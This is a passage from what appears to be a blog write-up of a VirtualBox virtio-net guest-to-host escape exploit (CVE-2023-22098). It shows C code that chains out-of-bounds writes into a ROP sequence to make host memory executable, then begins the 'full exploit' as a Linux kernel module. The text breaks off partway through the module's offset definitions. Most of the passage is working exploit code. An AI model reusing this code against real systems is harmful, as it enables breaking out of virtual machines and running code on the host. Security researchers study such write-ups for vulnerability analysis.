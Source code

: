 ```c
oob_write(dev, vdev, VBoxDD_addr + pop_rdi_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 13) - aVlanFilter_off, 64); //pop rdi
oob_write(dev, vdev, pDevInsR3_addr + 0x3000 - 0x200 - 0x200, PDMPCIDEVINT_s + ROP_off + (0x8 * 14) - aVlanFilter_off, 64); //rdi value
oob_write(dev, vdev, VBoxDD_addr + pop_rsi_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 15) - aVlanFilter_off, 64); //pop rsi
oob_write(dev, vdev, 0x1000, PDMPCIDEVINT_s + ROP_off                    + (0x8 * 16)  - aVlanFilter_off, 64); //rsi value
oob_write(dev, vdev, VBoxDD_addr + pop_rdx_ret, PDMPCIDEVINT_s + ROP_off +  (0x8 * 17) - aVlanFilter_off, 64); //pop rdx
oob_write(dev, vdev, RTMEM_PROT_READ | RTMEM_PROT_WRITE | RTMEM_PROT_EXEC, PDMPCIDEVINT_s + ROP_off + (0x8 * 18) - aVlanFilter_off, 64); //rdx value
```
{: file="exploit.c" }

After all this, you can see that the permissions have changed and are now rwx.

![rwx](/assets/img/CVE-2023-22098/vmmap-rwx.png)

The only thing remaining is to trigger the `pfnConfigRead` callback.

## Demo

{% include embed/video.html src='/assets/videos/PoC_CVE-2023-22098.mp4' %}


## Full exploit

```c
#include <linux/virtio_config.h>
#include <linux/scatterlist.h>
#include <linux/virtio_net.h>
#include <linux/virtio_pci.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/virtio.h>
#include <linux/device.h>
#include <linux/pci.h>

#define WORD                                2
#define VIRTIONET_CTRL_VLAN                 2               /**< Control class: VLAN filtering */
#define VIRTIONET_CTRL_VLAN_ADD             0               /**< Add VLAN to filter table */
#define VIRTIONET_CTRL_VLAN_DEL             1               /**< Delete VLAN from filter table */

#define RTMEM_PROT_NONE                     0               /** No access at all. */
#define RTMEM_PROT_READ                     1               /** Read access. */
#define RTMEM_PROT_WRITE                    2               /** Write access. */
#define RTMEM_PROT_EXEC                     4               /** Execute access. */

#define LocDeviceCap_off                    1844            /** 1844 | 8 VIRTIO_PCI_CAP_LOCATIONS_T LocDeviceCap; */
#define LocDeviceCap_offMmio_off            0               /** 0 | 2 uint16_t offMmio; */
#define LocDeviceCap_cbMmio_off             2               /** 2 | 2 uint16_t cbMmio; */

#define LocCommonCfgCap_off                 1828            /** 1828 | 8 VIRTIO_PCI_CAP_LOCATIONS_T LocCommonCfgCap; */
#define LocCommonCfgCap_off_offMmio         0               /** 0      |     2     uint16_t offMmio; */
```